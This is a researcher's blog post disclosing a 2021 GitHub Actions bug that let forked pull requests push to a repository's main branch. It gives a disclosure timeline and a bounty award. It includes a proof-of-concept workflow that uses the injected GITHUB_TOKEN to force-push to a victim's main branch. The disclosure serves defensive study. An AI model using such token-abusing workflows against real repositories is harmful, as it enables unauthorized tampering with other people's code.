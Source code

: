 ```yaml
---
title: "Gain write permission of repositories with a bug in GitHub Actions"
date: 2021-04-02T22:28:00+09:00
---
```


GitHub Actions is a useful feature for the jobs, for example, building, publishing.

I found a bug which allows unauthorized users to edit the main branch of the repositories in GitHub.
(Repositories which enables GitHub Actions are affected and fortunately, the bug exists between 2021/02/04 18:42 UTC and 2021/02/05 13:35 UTC.)

---

Recently, I saw the case that some users abused the GitHub Actions for the DDoS.

[GitHub Actionsを使ったDDoSに巻き込まれた - 私が歌川です](https://blog.utgw.net/entry/2021/02/05/133642)

They forked many repositories, added a workflow file which runs some malicious program on pull request event, and created pull requests, so that their programs run in target repositories.
I'm not sure if that is correct but I guess they sent those pull requests to bypass [the resource limits on GitHub Actions](https://docs.github.com/en/actions/reference/usage-limits-billing-and-administration).
If the resource is shared for the pull request jobs, how about the `GITHUB_TOKEN`?

The `GITHUB_TOKEN` allows the workflow to commit a code, create packages, and so on.
Therefore, if the `GITHUB_TOKEN` for the target repository is shared for the jobs triggered by pull request, we gain write permission of the respository without authorization!
So I tested.

---

The test was simple. Just send a pull request and wait.

1. Victim prepares a repository which has random workflow file in `.github/workflows`. (Make sure the attacker has no permission to commit the repository.)

2. Attacker forks the repository and replace the workflow file to the following one. This workflows edit main branch after pull request event.

```
on: [pull_request]

jobs:
  build:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v2

      - name: Create local changes and commit
        run: |
          echo test > newfile
          git add newfile
          git config --local user.email "namatyage@gmail.com"
          git config --local user.name "tyage"
          git commit -m "Add changes" -a
          git remote set-url origin https://x-access-token:${{ secrets.GITHUB_TOKEN }}@github.com/${GITHUB_REPOSITORY}
          git push --force origin HEAD:refs/heads/main
```

3. Attacker sends a pull request to the parent repository and waits for a while.

Surprisingly, the test was succeeded.
After the workflow finishes, victim repository has been modified!

(Send pull request to `tyage-test/repo-with-workflow`)
![](screenshot1.png)

(`tyage-test/repo-with-workflow` was polluted)
![](screenshot2.png)

I reported the bug to GitHub, and they fixed the bug quickly :)

--- 

Another short story:

Interestingly, a one day before I found the bug, another people had found a similar bug.

[Stealing arbitrary GitHub Actions secrets | Teddy Katz’s Blog](https://blog.teddykatz.com/2021/03/17/github-actions-write-access.html)

Though this is a independent bug, the bug also exists in GitHub Actions and is triggered by crafted pull request.

---

## Timeline

- **2021/02/04 18:42 UTC** The bug was born
- **2021/02/05 12:09 UTC** I reported this issue to GitHub Bug Bounty Program
- **2021/02/05 13:35 UTC** The bug was dead
- **2021/02/05 17:58 UTC** I received a message that the issues was fixed
- **2021/03/31 13:14 UTC** GitHub awarded a $25,000 bounty